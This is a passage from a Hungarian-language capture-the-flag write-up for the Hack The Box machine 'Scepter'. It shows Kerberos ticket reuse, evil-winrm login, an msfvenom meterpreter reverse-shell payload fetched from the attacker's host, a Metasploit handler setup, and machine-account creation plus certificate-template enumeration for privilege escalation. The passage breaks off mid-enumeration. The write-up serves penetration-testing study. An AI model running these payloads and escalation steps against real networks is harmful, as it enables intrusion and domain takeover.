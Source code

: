 ## h.brown ccache fájl exportálása

```bash
export KRB5CCNAME=h.brown.ccache
```

## evil-winrm h.brown userrel

```bash
evil-winrm -i dc01.scepter.htb -u h.brown
```

**User flag pipa!**

---
## Payload létrehozása

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.8 LPORT=4444 -f exe -o dara.exe
```
## Letöltés a célgépem

```bash
Invoke-WebRequest -Uri "http://10.10.14.8/dara.exe" -OutFile "dara.exe"
```

## Msfconsole beállítása

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.8
lhost => 10.10.14.8
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
```

## Privilege escalation – új gépfiók létrehozás, Shadow Credentials

```bash
bloodyAD --host dc01.scepter.htb -d scepter.htb -u a.carter -p 'NoSecHere!' --dc-ip 10.10.11.65 add computer nosecpc 'Password123'
[+] nosecpc created
```

## Pontos CA és Template név csekkolása

```bash
certipy find -u 'nosecpc$' -p 'Password123' -target 10.10.11.65

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'scepter-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'scepter-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'scepter-DC01-CA' via RRP
```